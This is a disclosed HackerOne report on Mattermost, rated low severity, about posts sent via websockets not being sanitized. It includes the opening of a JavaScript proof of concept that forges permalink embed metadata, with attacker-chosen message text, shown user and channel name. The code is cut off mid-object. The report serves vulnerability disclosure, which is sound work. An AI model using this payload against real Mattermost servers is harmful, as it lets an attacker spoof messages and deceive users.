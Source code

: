 # Posts sent via websockets aren't sanitized properly

## Report Details
- **Report ID**: 2541027
- **URL**: https://hackerone.com/reports/2541027
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-06-07T13:04:32.644Z
- **Disclosed**: 2024-10-01T12:28:41.076Z

## Reporter
- **Username**: c0rydoras
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
Posts aren't sanitized the same way when sent via Websockets as they are when saved to the database.


## Example 1 - Permalink embed with fully customizable content
### Code
```javascript
const MM_INSTANCE_URL = process.env.MM_INSTANCE_URL;
const MM_AUTH_TOKEN = process.env.MM_AUTH_TOKEN;
const MM_USER_ID = process.env.MM_USER_ID;
const MM_CHANNEL_ID = process.env.MM_CHANNEL_ID; // the ID of the channel where we create the post

const MM_TARGET_ID = "96nffx8oztncuyyxq7nj7p8seh"; // ID of a post, which the embed will target
const MM_SHOWN_USER_ID = "teur4prbifnh7dhq5rh3cp7q4c"; // the user shown in the embed, in this example its the userid of system

const metadata = ({
    embeds: [
      {
        type: "permalink",
        data: {
          post_id: MM_TARGET_ID,
          post: {
            id: MM_TARGET_ID,
            user_id: MM_SHOWN_USER_ID,
            channel_id: "doesnt-matter",
            root_id: "",
            original_id: "",
            message: 'This can be whatever i want',
            type: "",
            props: {},
            hashtags: "",
            reply_count: 0,
            last_reply_at: 0,
            participants: [],
            metadata: {},
          },
          team_name: "",
          channel_display_name: "can-be-anything-i-want",
```